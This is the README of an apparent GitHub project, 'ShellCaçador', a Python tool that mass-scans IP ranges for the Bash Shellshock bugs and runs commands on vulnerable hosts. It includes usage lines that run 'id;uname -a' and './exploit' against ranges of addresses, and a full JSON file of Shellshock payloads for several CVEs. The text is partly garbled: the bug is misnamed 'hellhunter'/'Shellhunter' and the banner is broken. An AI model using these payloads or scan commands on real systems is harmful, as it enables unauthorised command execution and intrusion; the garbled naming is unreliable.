




<h1 align="center">
  ShellCaçador
</h1>

<p align="center">
  É uma ferramenta simples para testar a vulnerabilidade do shell
<br/><br/>
  


</p>

```
### Shellhunter (softw bug)

hellhunter, também conhecido como Bashdoor, é uma família de bugs de segurança no shell Unix Bash, sendo o primeiro deles divulgado em 24 de setembro de 2014. hellhunter pode permitir que um invasor faça com que o Bash execute comandos arbitrários e obtenha acesso não autorizado a muitos serviços voltados para a Internet, como servidores web, que usam Bash para processar solicitações.


### Installation
> Use the package manager [pip](https://pip.pypa.io/en/stable/)

### Pip

```
pip install shodan
pip install ipinfo
```

### Help

```
python main.py --help

                        

                     _             _             
                    | |_| | | | | '_ \| __/ _ \ '__|                
                    | |  |  _  | |_| | | | | ||  __/ |                 
                    | |  |_| |_|\__,_|_| |_|\__\___|_|                     
                                                
                   
   By: VOID                                                                         

```       
Argumentos opcionais:	Descrição:
-h, --help	Mostra esta mensagem de ajuda e sai
–file <ips.txt>	Insira a lista de hosts de destino
–range	Define o intervalo de IP, ex.: 192.168.15.1,192.168.15.100
–cmd-cgi	Define o comando shell que será executado na carga útil
–exec-vuln	Executa comandos em alvos vulneráveis
–thread <20>, -t <20>	Define o número de threads, ex.: 20
–check	Verifica a vulnerabilidade do shellshock
–ssl	Habilita solicitação com SSL
–cgi-file <cgi.txt>	Define um arquivo CGI a ser usado
–timeout <5>	Define o tempo limite de conexão
–all	Testa todas as cargas úteis
–debug, -d	Habilita o modo de depuração

```

```

### Command e.g:

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"' --debug

```

### Prints:
#### START

#### PROCESS

#### SPECIAL COMMAND ( --exec-vuln 'echo ```"_TARGET_"```' )

#### COMMAND ( --debug )

--debug
### Source file ( Exploits )
>pwd: assets/exploits.json
```json
{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 20,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree

```bash
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print00.png
│       ├── print01.png
│       ├── print02.png
│       └── print03.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_shock.py
│   ├── color_shock.py
│   ├── debug_shock.py
│   ├── file_shock.py
│   ├── __init__.py
│   ├── request_shock.py
│   ├── shodan_shock.py
│   └── thread_shock.py
├── output
│   └── vuln.txt
├── README.md
└── wordlist
    └── cgi.txt
```

### Ref
- https://en.wikipedia.org/wiki/Shellhunter_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://blog.inurl.com.br/search?q=shellshock
- https://github.com/googleinurl/Xpl-SHELLSHOCK-Ch3ck/blob/master/xplSHELLSHOCK.php
- https://github.com/chelseakomlo/shellshock_demo
- https://github.com/xdistro/ShellShock/blob/master/shellshock_test.sh
- https://github.com/capture0x/XSHOCK/blob/master/main.py
- https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1410-exploits/apachemodcgi-shellshock.txt
- https://github.com/gajos112/OSCP/blob/master/Shellhunter.txt
- http://stuff.ipsecs.com/files/ucs-shellshock_pl.txt
- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://en.wikipedia.org/wiki/Shellhunter_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://manualdousuario.net/shellshock-bash-falha/
- https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit


### Roadmap
I started this project to study a little more python and interact more with APIS like shodan and ipinfo.
* [x] Command line structure
* [x] Banner
* [x] File management class
* [x] HttpRequests management class
* [x] Thread management class
* [x] Source file for exploits
* [x] Color in process
* [x] Shell Exec on vulnerable targets
* [x] Process debug

@VOID# ShellTHEbest
